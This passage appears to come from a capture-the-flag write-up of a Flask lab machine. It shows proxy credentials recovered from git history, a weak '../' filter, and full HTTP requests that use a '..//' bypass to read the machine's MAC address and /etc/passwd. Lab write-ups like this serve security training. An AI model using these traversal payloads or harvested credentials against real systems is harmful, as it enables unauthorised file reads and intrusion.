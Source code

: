 ````
$ git show be4da71987bbbc8fae7c961fb2de01ebd0be1997

...
...

-{
-  "python.pythonPath": "/home/dev01/.virtualenvs/flask-app-b5GscEs_/bin/python",
-  "http.proxy": "http://dev01:Soulless_Developer#2022@10.10.10.128:5187/",
-  "http.proxyStrictSSL": false
-}
````

There are some credentials in the code --> `dev01:Soulless_Developer#2022`.

Trying the credentials against SSH gives no luck!

{{< alert >}}
**Note!** This credentials will be useful later when getting the user shell!
{{< /alert >}}


### LFI

Under `/app/app/utils.py` there is an interesting function that defines `get_file_name`, which is then used by `views.py`:  

````python
def get_file_name(unsafe_filename):
    return recursive_replace(unsafe_filename, "../", "")
````

The function is preventing `../` sequences from a file name by removing them, in order to protect against LFI attacks.

This filter is a very basic one and can be easily bypassed using double slashes `..//`. The filter will not recognize `..//` as a dangerous sequence and will not remove it from the file name.

For example it is possible to retrieve the target machine's MAC address with the following request:

````HTTP
GET /uploads/..//sys/class/net/eth0/address HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0

# result is 02:42:ac:11:00:02
````

Or to access the `/etc/passwd` resource:

````HTTP
GET /uploads/..//etc/passwd HTTP/1.1
Host: 10.10.11.164
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
````

